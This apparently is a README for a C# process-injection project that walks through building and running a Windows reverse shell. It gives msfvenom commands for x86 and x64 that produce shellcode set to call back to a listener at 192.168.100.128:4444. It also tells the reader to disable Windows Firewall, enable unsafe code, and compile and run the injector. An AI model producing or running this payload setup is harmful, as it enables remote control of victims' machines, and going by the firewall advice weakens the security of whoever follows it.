

# Notes

1. To generate the payload, you need to use the following commands. The following is for x86

```sh
msfvenom -p windows/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

The following is for x64

```sh
msfvenom -p windows/x64/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

2. For msfvenom to work, you need to install metasploit framework on windows. See the reference for download link. 

3. Windows firewall will not allow you to even download the metasploit framework. So you need to disable it. See the Youtube video given in the reference.

4. You need to enable unsafe code for the project as follows. Rightclick the project and select project properties.



5. Now compile and run. 

# References
1. https://github.com/tasox/CSharp_Process_Injection
2. https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#installing-metasploit-on-windows
3. https://youtu.be/IuXmboYm3Gk?t=35
4. 